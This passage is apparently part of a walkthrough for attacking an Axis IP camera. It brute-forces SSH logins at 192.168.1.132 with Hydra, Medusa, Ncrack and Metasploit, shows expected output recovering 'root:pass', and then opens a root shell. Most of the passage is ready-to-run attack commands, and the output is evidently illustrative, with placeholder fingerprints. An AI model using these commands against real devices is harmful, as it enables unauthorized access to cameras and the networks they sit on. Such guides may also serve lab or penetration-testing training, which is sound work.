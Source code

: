 ```bash
axis
camera
EOF

# Method 1: Hydra (fastest and most reliable)
hydra -L axis_users.txt -P axis_passwords.txt ssh://192.168.1.132 -t 4 -v
```

**Expected Output:**
```
[ATTEMPT] target 192.168.1.132 - login "root" - pass "pass" - 1 of 54 [child 0]
[ATTEMPT] target 192.168.1.132 - login "root" - pass "root" - 2 of 54 [child 1]
[22][ssh] host: 192.168.1.132   login: root   password: pass
```

**Success! Credentials found: `root:pass`**

```bash
# Alternative brute-force methods

# Method 2: Medusa
medusa -h 192.168.1.132 -U axis_users.txt -P axis_passwords.txt -M ssh

# Method 3: Ncrack
ncrack -p 22 -U axis_users.txt -P axis_passwords.txt 192.168.1.132

# Method 4: Metasploit
msfconsole -q -x "use auxiliary/scanner/ssh/ssh_login; set RHOSTS 192.168.1.132; set USER_FILE axis_users.txt; set PASS_FILE axis_passwords.txt; run"
```

---

## Phase 4: System Access

### Initial SSH Access

```bash
# Connect with discovered credentials
ssh root@192.168.1.132
# Enter password: pass
```

**Expected Output:**
```
The authenticity of host '192.168.1.132' can't be established.
RSA key fingerprint is SHA256:xxxxxxxxxxxxxxxxxxxxxx.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.132' (RSA) to the list of known hosts.
root@192.168.1.132's password: pass

BusyBox v1.31.0 (2024-01-01 00:00:00 UTC) built-in shell (ash)

   _____  _______  _____  _____
  |  __ \|__   __||_   _|/ ____|
  | |__) |  | |     | | | (___
  |  _  /   | |     | |  \___ \
  | | \ \   | |    _| |_ ____) |
  |_|  \_\  |_|   |_____|_____/  Camera System

root@axis:~# 
```
